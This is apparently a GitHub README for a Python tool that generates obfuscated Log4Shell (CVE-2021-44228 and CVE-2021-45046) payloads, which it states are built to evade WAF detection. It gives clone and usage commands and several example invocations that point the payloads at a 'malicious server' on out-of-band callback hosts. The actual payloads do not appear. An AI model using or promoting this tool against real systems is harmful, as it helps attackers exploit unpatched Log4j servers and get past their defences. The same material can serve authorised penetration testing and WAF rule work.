






# Log4Shell-obfuscated-payloads-generator
Log4Shell-obfuscated-payloads-generator can generate primary obfuscated or secondary obfuscated CVE-2021-44228 or CVE-2021-45046 payloads to evade WAF detection.

[The design idea of ​​Log4Shell-obfuscated-payloads-generator](https://r3kind1e.github.io/2022/05/26/Log4Shell-obfuscated-payloads-generator/)

## Installation
```
git clone https://github.com/r3kind1e/Log4Shell-obfuscated-payloads-generator.git
```

Log4Shell-obfuscated-payloads-generator works out of the box with Python version 3.x on any platform.

## Usage
To get a list of basic options use:

```
python3 Log4Shell-obfuscated-payloads-generator.py -h
```

To get usage examples use:

```
python3 Log4Shell-obfuscated-payloads-generator.py -hh
```

## Screenshots
`-h`: get a list of basic options


`-hh`: get usage examples


With a single option to generate payloads, the `-s` option specifies the malicious server:
```
--generate-primary-obfuscated-cve-2021-44228-payload 8 -s ck0pf4l6fmq4w0v17o7t894txk3arz.oastify.com
```



```
--generate-primary-obfuscated-cve-2021-45046-payload 4 -s x53a0p6r07bphlgms9setupei5owcl.oastify.com
```


```
--generate-secondary-obfuscated-cve-2021-44228-payload 5 -s oia1rpap41mhxkp6rdbbywit1k7avz.oastify.com
```



```
--generate-secondary-obfuscated-cve-2021-45046-payload 5 -s 3vzg44n4hgzwaz2l4soqbbv8ezkq8f.oastify.com
```


With multiple options to generate payloads, the `-s` option specifies a malicious server:
```
--generate-primary-obfuscated-cve-2021-44228-payload 4 --generate-secondary-obfuscated-cve-2021-44228-payload 4 -s exfr6fpfjr17ca4w63q1dmxjgam2ar.oastify.com
```


Without specifying a malicious server with the `-s` option, the `{{callback_host}}` placeholder will be preserved in the generated payloads:
```
--generate-primary-obfuscated-cve-2021-44228-payload 3
```

```
--generate-primary-obfuscated-cve-2021-45046-payload 3 --generate-secondary-obfuscated-cve-2021-45046-payload 7
```

